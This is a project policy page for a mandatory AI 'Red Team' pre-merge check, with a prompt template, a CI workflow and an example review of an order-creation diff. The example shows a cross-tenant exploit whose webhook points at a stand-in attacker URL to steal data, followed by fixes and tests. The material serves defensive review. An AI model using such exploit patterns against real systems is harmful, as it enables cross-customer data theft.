 ```yaml
---
title: "P3: Red Team - Attack the Diff"
purpose: Adversarial testing before merge
status: MANDATORY - Pre-merge phase
enforcement: Automated on every PR
---
```


# PROMPT 3: RED TEAM (Breaker)

**Auto-runs on every PR before merge.**

## Prompt Template

```
You are the Breaker. Attack the diff:

Categories to test:
1. Race/retry/idempotency flaws
   - Concurrent requests to same resource
   - Retry with different parameters
   - Multiple webhooks for same event
   - Double-spend scenarios

2. Boundary overflows/UTF-8, JSON bombs, path traversal
   - Max integer values
   - Empty strings, null values
   - Unicode edge cases (emoji, RTL, zero-width)
   - Deeply nested JSON (1000+ levels)
   - Large payloads (>10MB)
   - Path traversal in file operations

3. Timeouts/backpressure
   - Slow external APIs (>10s response)
   - Connection hangs (no response)
   - Rate limiting from providers
   - Memory exhaustion from large responses

4. AuthZ bypass & multi-tenant leakage
   - Access other customers' data
   - Forge authentication tokens
   - Bypass API key validation
   - SQL/NoSQL injection in queries
   - Cross-tenant data leakage

Propose failing tests. Output patch with exploits + fixes.
```

## Enforcement

### GitHub Actions
```yaml
# .github/workflows/red-team.yml
name: Red Team Attack
on: [pull_request]
jobs:
  red-team:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run red team prompts
        run: |
          npm run test:red-team || exit 1
```

### Automated Script
```bash
#!/bin/bash
# scripts/red-team-attack.sh

echo "🔴 RED TEAM ATTACK: Testing diff for vulnerabilities"

# Get changed files
CHANGED_FILES=$(git diff --name-only origin/main...HEAD | grep '\.ts$')

for file in $CHANGED_FILES; do
  echo "Attacking: $file"

  # Run property tests with adversarial seeds
  npm run test:properties -- --file=$file --mode=adversarial

  # Run fuzz tests
  npm run test:fuzz -- --file=$file --iterations=10000

  # Check for common anti-patterns
  eslint $file --rule 'no-eval: error' --rule 'no-new-func: error'
done

echo "✅ RED TEAM COMPLETE"
```

## Example Usage

### Input (PR Diff)
```typescript
// NEW CODE
async createOrder(req: OrderReq): Promise<OrderResp> {
  const response = await this.client.post('/orders', {
    quote_id: req.quoteId,
    customer_id: req.customerId, // 🚨 POTENTIAL ISSUE
  });
  return response.data;
}
```

### Red Team Output
```markdown
# Red Team Analysis: createOrder()

## Vulnerabilities Found

### 1. Multi-Tenant Data Leakage (CRITICAL)
**Location**: Line 3, customer_id parameter
**Issue**: No validation that customer_id matches authenticated user
**Exploit**:
```typescript
// Attacker can access other customers' orders
await createOrder({
  carrier: 'skipcart',
  quoteId: 'quote-123',
  customerId: 'victim-customer-id', // ← Attacker specifies victim
  pkg: { desc: 'Test', valueCents: 100 },
  webhooks: { status: 'https://attacker.com/steal-data' }
});
```

**Fix**:
```typescript
async createOrder(req: OrderReq, authenticatedUserId: string): Promise<OrderResp> {
  // Validate customer ownership
  if (req.customerId !== authenticatedUserId) {
    throw new UnauthorizedError('Cannot create order for another customer');
  }

  const response = await this.client.post('/orders', {
    quote_id: req.quoteId,
    customer_id: authenticatedUserId, // ← Use authenticated ID only
  });
  return response.data;
}
```

**Test**:
```typescript
it('should reject order for another customer', async () => {
  const adapter = new SkipcartAdapter(config);

  await expect(
    adapter.createOrder(
      { carrier: 'skipcart', quoteId: 'q1', customerId: 'victim', pkg: {...}, webhooks: {...} },
      'attacker' // authenticated user
    )
  ).rejects.toThrow(UnauthorizedError);
});
```

### 2. Missing Timeout (MEDIUM)
**Location**: Line 2, HTTP POST
**Issue**: No timeout, can hang indefinitely
**Exploit**: Slowloris-style attack by carrier API
**Fix**: Add timeout to axios config (already implemented in adapter constructor)

### 3. No Retry Idempotency (MEDIUM)
**Location**: createOrder method
**Issue**: If retry occurs after success, duplicate orders created
**Fix**: Implement idempotency key
```typescript
async createOrder(req: OrderReq, idempotencyKey: string): Promise<OrderResp> {
  const response = await this.client.post('/orders', {
    quote_id: req.quoteId,
    idempotency_key: idempotencyKey, // ← Prevents duplicates
  });
  return response.data;
}
```

## Exploit Tests to Add

```typescript
// tests/red-team/createOrder.exploit.test.ts

describe('createOrder - Exploit Tests', () => {
  it('EXPLOIT: Cross-tenant data access', async () => {
    // Test created above
  });

  it('EXPLOIT: Retry creates duplicate order', async () => {
    const adapter = new SkipcartAdapter(config);

    const req: OrderReq = {
      carrier: 'skipcart',
      quoteId: 'q1',
      pkg: { desc: 'Test', valueCents: 100 },
      webhooks: { status: 'https://test.com/webhook' }
    };

    // Create order twice with same request
    const order1 = await adapter.createOrder(req, 'user-123', 'idem-key-1');
    const order2 = await adapter.createOrder(req, 'user-123', 'idem-key-1');

    // Should return same order (idempotent)
    expect(order1.orderId).toBe(order2.orderId);
  });

  it('EXPLOIT: JSON bomb (deeply nested)', async () => {
    const deepPayload = { a: { a: { a: { /* 1000 levels deep */ } } } };

    await expect(
      adapter.createOrder(deepPayload as any, 'user-123')
    ).rejects.toThrow('Payload too large');
  });
});
```

## Summary
- **Critical**: 1 (multi-tenant leakage)
- **Medium**: 2 (timeout, idempotency)
- **Total Exploits**: 3
- **Fix Rate**: 0/3 (all need fixes before merge)

**MERGE BLOCKED** until fixes applied.
```

## Checklist

Before merge:

- [ ] All critical vulnerabilities fixed
- [ ] Exploit tests added and passing
- [ ] No new security warnings from linter
- [ ] Threat model updated if attack surface changed
- [ ] Security review completed

## Violations

If PR merges without red team pass:
1. Immediate revert
2. Post-mortem required
3. Updated policy to prevent bypass

---

**Status**: MANDATORY - No exceptions
**Enforcement**: Automated PR check + security review
**Owner**: Jesse Niesen (CEO)
**Last Updated**: 2025-10-08
